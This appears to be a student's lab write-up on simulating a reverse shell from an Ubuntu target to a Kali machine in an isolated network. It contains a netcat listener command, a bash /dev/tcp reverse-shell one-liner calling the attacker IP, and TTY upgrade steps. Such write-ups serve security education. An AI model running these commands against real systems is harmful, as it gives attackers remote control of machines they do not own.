


# ⚔️ Lab 01 — Reverse Shell Attack

> *Simulating a reverse shell to gain remote access to a target machine in a controlled lab environment.*

---

## 📌 Overview

In this lab, a **reverse shell attack** was simulated to gain remote access to a target machine. Unlike a traditional bind shell, a reverse shell causes the **target system to initiate the connection back** to the attacker, effectively bypassing inbound firewall restrictions.

---

## 🎯 Objectives

- [x] Understand the reverse shell concept
- [x] Gain remote access to a target system
- [x] Execute commands remotely
- [x] Upgrade to a fully interactive shell

---

## 🧪 Lab Environment

| Component        | Description         |
|-----------------|---------------------|
| Attacker Machine | Kali Linux          |
| Target Machine   | Ubuntu Server       |
| Network          | Host-Only Network   |
| Attacker IP      | `192.168.248.130`   |
| Target IP        | `192.168.248.128`   |

---

## 🛠️ Tools Used

| Tool       | Purpose                        |
|------------|-------------------------------|
| `netcat`   | Setting up the listener        |
| `bash`     | Executing the reverse shell    |
| `python3`  | Spawning a TTY shell           |

---

## ⚙️ Lab Setup

- Both machines connected to the same **host-only network**
- Connectivity verified between attacker and target
- Required tools confirmed available on both machines

---

## 🚀 Attack Procedure

### 🔹 Step 1 — Start Listener (Attacker)

On the **attacker machine**, set up a Netcat listener to wait for the incoming connection:

```bash
nc -lvnp 4444
```

| Flag  | Description                        |
|-------|------------------------------------|
| `-l`  | Listen mode                        |
| `-v`  | Verbose output                     |
| `-n`  | Skip DNS resolution                |
| `-p`  | Specify port number                |

---

### 🔹 Step 2 — Execute Reverse Shell (Target)

On the **target machine**, execute the following command to connect back to the attacker:

```bash
bash -i >& /dev/tcp/192.168.248.130/4444 0>&1
```

> **How it works:** This command opens a TCP connection to the attacker's IP on port `4444` and redirects standard input, output, and error — effectively handing a live bash shell to the attacker.

📸 **Screenshot — Reverse Shell Triggered:**



---

### 🔹 Step 3 — Verify Access

Once the shell is received, confirm remote access:

```bash
whoami
```

---

## 🔼 Shell Upgrade

The initial shell is limited (no tab completion, no job control). Upgrading it improves usability.

### 1️⃣ Spawn a TTY Shell

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

### 2️⃣ Stabilize the Shell

```bash
stty raw -echo
fg
```

### 3️⃣ Set Terminal Type

```bash
export TERM=xterm
```

📸 **Screenshot — Upgraded Interactive Shell:**



---

## 📊 Results

| Task                                     | Status  |
|------------------------------------------|---------|
| Reverse shell connection established     | ✅ Done |
| Remote access to target machine obtained | ✅ Done |
| Commands executed on the target system   | ✅ Done |
| Shell upgraded to interactive session    | ✅ Done |

---

## 🧠 Key Learnings

- **Reverse shells bypass inbound firewalls** — since the target initiates the outbound connection, inbound rules don't block it.
- **Netcat** is a versatile tool for establishing listener-based connections with minimal setup.
- **Bash's `/dev/tcp`** pseudo-device allows raw TCP connections without additional tools.
- **Shell stabilization** is crucial in real-world engagements — raw shells are fragile and lose state easily.
- Understanding **terminal behavior** (TTY, stty, TERM) is fundamental for working with remote shells.

---

## ⚠️ Disclaimer

> This lab was conducted in a **controlled, isolated environment** strictly for **educational purposes**.  
> Unauthorized use of these techniques against systems you do not own or have explicit written permission to test is **illegal and unethical**.

---

## ✅ Status

**`COMPLETED`** — Lab successfully finished.

---

*Lab 01 | Penetration Testing Practice | Ethical Hacking Series*
